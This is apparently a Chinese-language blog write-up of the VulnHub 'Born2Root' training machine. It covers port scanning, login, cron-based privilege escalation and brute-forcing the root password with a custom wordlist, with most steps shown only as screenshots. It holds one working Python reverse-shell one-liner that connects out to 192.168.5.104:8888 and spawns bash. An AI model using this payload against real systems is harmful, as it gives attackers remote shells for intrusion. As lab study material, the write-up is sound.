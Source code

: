 +++
ShowToc = true
TocOpen = true
title = '0x046 Born2Root'
date = 2024-10-11T14:25:59+08:00
draft = false
private = true
show_reading_time = true
categories = 'vulnhub'
+++



还是向virtualbox妥协了，这次这个问题出现在导入的地方，不是很好解决

# 端口扫描

![](/vulnhub_img/WEBRESOURCE5df578715597c3b49f4243d472dcbbc3image.png)

![](/vulnhub_img/WEBRESOURCEc09a104349dea9c2b05f1e7c2aa9cc16image.png)

![](/vulnhub_img/WEBRESOURCE85c695b652a1e26fe7e61944e338dbe5image.png)

# 渗透

![](/vulnhub_img/WEBRESOURCEf4c5bbbe1a9792b52962a819a7b4cc04image.png)

![](/vulnhub_img/WEBRESOURCE0ed3c7892f2075a49877697a30ee67edimage.png)

发现有效信息：

![](/vulnhub_img/WEBRESOURCE791506b014227d0912174c412d54b9bbimage.png)

![](/vulnhub_img/WEBRESOURCEae0a0635ac2108b46d4ef9863d41e88dimage.png)

但是不知道用户名，只能把首页上的用户名都试试了：

出现一个提示不支持的签名，这个之前遇到过，需要改一下配置文件：

![](/vulnhub_img/WEBRESOURCEdf3314cbc19624c5b2a130d6a462eae8image.png)

好像登录上去了：

![](/vulnhub_img/WEBRESOURCE1b65f822c742c7e7f7868a350631fab3image.png)

# 提权

这次提权有点意思，很多命令被禁用了，只手动挨个找，总于在查找计划任务时找到线索：

![](/vulnhub_img/WEBRESOURCEac6037d08b857388dd6d8efbd7ed288aimage.png)

先提权到jimmy用户吧：

```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.5.104",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);
```

![](/vulnhub_img/WEBRESOURCEe212692feb11cec236b7b3330307807bimage.png)

发现SUID权限程序：

![](/vulnhub_img/WEBRESOURCE94e264ca953699e363b42570e8725b55image.png)

但是使用了绝对路径，相关文件没有权限：

![](/vulnhub_img/WEBRESOURCEb2f5d8b89510e579bc0e9344a36bd0faimage.png)

后面无奈看了WP，结果还是爆破，当初直接爆破会不会更好呢，不同的是，这次cewl的密码本不太够了。实测john生成的不太好用，规则太死了：

需要生成特定的社工字典：

[https://www.bugku.com/mima/](https://www.bugku.com/mima/)

![](/vulnhub_img/WEBRESOURCEfcff4143ec5542e6d7d585d15b533b43image.png)

然后爆破成功：

![](/vulnhub_img/WEBRESOURCEc7c9bf37e31fa4bd34ce742a8c2776c1image.png)

这也是root密码：

![](/vulnhub_img/WEBRESOURCE94a07ea7c2aea512e552e831322422e5image.png)